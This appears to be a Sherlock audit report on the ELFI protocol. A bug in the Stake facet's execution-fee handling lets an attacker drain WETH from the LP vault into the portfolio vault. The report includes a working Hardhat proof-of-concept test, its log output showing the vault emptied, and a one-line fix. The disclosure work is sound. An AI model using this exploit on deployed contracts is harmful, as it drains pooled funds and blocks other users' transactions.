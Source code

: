 Joyous Citron Butterfly

high

# A malicious user can transfer an arbitrary amount of WETH from `LpVault` to `PortfolioVault` by staking native token as collateral

## Summary

The `executionFee` is taken from the wrong vault when a user staking native token as collateral. An attacker could exploit that to transfer an arbitrary amount of WETH from `LpVault` to `PortfolioVault`.

## Vulnerability Detail

A user can stake native token as collateral by setting `isCollateral = true` and `isNativeToken = true` in `IStake.MintStakeTokenParams`. Assuming `walletRequestTokenAmount == requestTokenAmount + executionFee`, the user calls `StakeFacet::createMintStakeTokenRequest` along with `requestTokenAmount + executionFee` ETH. Then `requestTokenAmount + executionFee` WETH will be transfer to `PortfolioVault`

https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/facets/StakeFacet.sol#L46-L54

Then `MintProcess::validateAndDepositMintExecutionFee` returns with `isExecutionFeeFromLpVault = true`

https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/facets/StakeFacet.sol#L57-L58

When the keeper calls `StakeFacet::executeMintStakeToken` the `executionFee` will be taken from `LpVault` to send back to the user.

https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/facets/StakeFacet.sol#L88-L98

Result:
- `LpVault`: decrease `executionFee` WETH
- `PortfolioVault`: increase `requestTokenAmount + executionFee` WETH

As a result, the user can transfer an arbitrary amount of WETH `LpVault` to `PortfolioVault` by setting `executionFee` to the amount they wants. 

## Impact

The attacker could break many contract's functionalities by transferring WETH out of the `LpVault`. For example, denying the keeper from calling `StakeFacet::executeMintStakeToken`.

`test/single-cases/poc.test.ts`

```javascript
import { Fixture, deployFixture } from '@test/deployFixture'
import { MINT_ID_KEY } from '@utils/constants'
import { precision } from '@utils/precision'
import { createMint, executeMint } from '@utils/mint'
import { MarketFacet, WETH } from 'types'
import { HardhatEthersSigner } from '@nomicfoundation/hardhat-ethers/signers'
import { ConfigFacet, IConfig } from 'types/contracts/facets/ConfigFacet'

describe('POC', function () {
  let fixture: Fixture
  let marketFacet: MarketFacet, configFacet: ConfigFacet
  let user0: HardhatEthersSigner
  let lpVaultAddr: string, portfolioVaultAddr: string, wethAddr: string
  let xEth: string
  let weth: WETH
  let config: IConfig.CommonConfigParamsStructOutput

  beforeEach(async () => {
    fixture = await deployFixture()
    ;({ marketFacet, configFacet } = fixture.contracts)
    ;({ user0 } = fixture.accounts)
    ;({ xEth } = fixture.pools)
    ;({ weth } = fixture.tokens)
    ;({ lpVaultAddr, portfolioVaultAddr } = fixture.addresses)

    config = await configFacet.getConfig()
    wethAddr = await weth.getAddress()
  })

  it('POC', async function () {
    // Transfer WETH to LP vault for gas fee
    await weth.connect(user0).transfer(lpVaultAddr, precision.token(2, 15))

    // Attacker request
    await createMint(fixture, {
        stakeToken: xEth,
        requestToken: weth,
        requestTokenAmount: precision.token(1, 15),
        walletRequestTokenAmount: precision.token(1, 15),
        isCollateral: true,
        isNativeToken: true,
        executionFee: precision.token(99_999, 15),
    })    
    const attckerRequestId = await marketFacet.getLastUuid(MINT_ID_KEY)

    // User request    
    await createMint(fixture, {
      stakeToken: xEth,
      requestToken: weth,
      requestTokenAmount: precision.token(50),
      walletRequestTokenAmount: precision.token(50),
      isCollateral: false,
      isNativeToken: true,
      executionFee: precision.token(2, 15),
    })    

    // User request
    await createMint(fixture, {
      stakeToken: xEth,
      requestToken: weth,
      requestTokenAmount: precision.token(50),
      walletRequestTokenAmount: precision.token(50),
      isCollateral: false,
      isNativeToken: true,
      executionFee: precision.token(2, 15),
    })   

    const preWEthLpVaultBalance = BigInt(await weth.balanceOf(lpVaultAddr))
    const preWEthPortfolioVaultBalance = BigInt(await weth.balanceOf(portfolioVaultAddr))

    console.log('preEthLpVaultBalance:', preWEthLpVaultBalance)
    console.log('preEthPortfolioVaultBalance:', preWEthPortfolioVaultBalance)

    const userRequestId = await marketFacet.getLastUuid(MINT_ID_KEY)

    const tokenPrice = precision.price(1800)
    const oracle = [{ token: wethAddr, minPrice: tokenPrice, maxPrice: tokenPrice }]

    await executeMint(fixture, {
      requestId: attckerRequestId,
      oracle: oracle,
    })

    const postWEthLpVaultBalance = BigInt(await weth.balanceOf(lpVaultAddr)) 
    const postWEthPortfolioVaultBalance = BigInt(await weth.balanceOf(portfolioVaultAddr))

    console.log('postEthLpVaultBalance:', postWEthLpVaultBalance)
    console.log('postEthPortfolioVaultBalance:', postWEthPortfolioVaultBalance)

    // This would revert because there is not enough WETH in the LP vault
    await executeMint(fixture, {
      requestId: userRequestId,
      oracle: oracle,
    })
  })
})
```

Logs
```bash
preEthLpVaultBalance: 100006000000000000000n
preEthPortfolioVaultBalance: 100000000000000000000n
postEthLpVaultBalance: 7000000000000000n
postEthPortfolioVaultBalance: 100000000000000000000n
```

## Code Snippet

## Tool used

Manual Review

## Recommendation

Take the `executionFee` from `PortfolioVault` when a user stake native token as collateral 

```diff
    function validateAndDepositMintExecutionFee(
        address account,
        IStake.MintStakeTokenParams calldata params
    ) external returns (uint256, bool) {
        AppConfig.ChainConfig memory chainConfig = AppConfig.getChainConfig();
        GasProcess.validateExecutionFeeLimit(params.executionFee, chainConfig.mintGasFeeLimit);
        if (params.isNativeToken && params.walletRequestTokenAmount >= params.executionFee) {
-           return (params.walletRequestTokenAmount - params.executionFee, true);
+           return (params.walletRequestTokenAmount - params.executionFee, !params.isCollateral);
        }
	...
```